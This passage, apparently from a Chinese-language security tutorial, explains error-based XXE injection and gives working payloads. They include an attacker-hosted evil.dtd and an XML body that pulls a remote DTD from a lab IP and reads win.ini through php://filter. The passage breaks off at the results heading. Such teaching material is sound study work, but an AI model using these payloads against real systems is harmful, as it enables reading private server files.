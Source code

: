 基于报错的原理和无回显类似，无回显通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。所以和无回显的构造方式几乎只有url出不同，其他地方一模一样。

简答来说，报错就是将返回的数据，本该返回回去，但由于URL地址是错误的，那么就会出现报错，将数据显示在报错中。

参考链接：[https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/](https://blog.szfszf.top/tech/blind-xxe-详解-google-ctf-一道题目分析/)

### 4.3.1.**引入服务器文件案例**

引入服务器文件的操作和无回显案例基本一致，就是上面提到的解释。

#### 4.3.1.1.**修改配置文件**

这里为了能够实现报错，需要在配置文件中，将不显示报错内容给注释了。需要将浏览器重新刷新一下，重新抓包。

![img](https://s2.loli.net/2023/03/13/rgtThxbYznZRacW.jpg) 

#### 4.3.1.2.**构建payload**

首先在攻击者服务器中创建evil.dtd文件，在文件中写入payload，在这个payload中会存在一个hhhhh的地方，原本在无回显中这里会写上服务器的IP地址，但是这里随便写一个不存在的地址，使其能够出现报错。

payload：

```xml
<!ENTITY % start "<!ENTITY % send SYSTEM 'file:///hhhhhhh/%file;'>">

%start;

构建攻击的payload的语句。

payload：

<?xml version="1.0"?>

<!DOCTYPE message [

<!ENTITY % remote SYSTEM "http://192.168.10.50/evil.dtd">

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">

%remote;

%send;

]>

<message>1234</message>
```



#### 4.3.1.3.**测试效果**
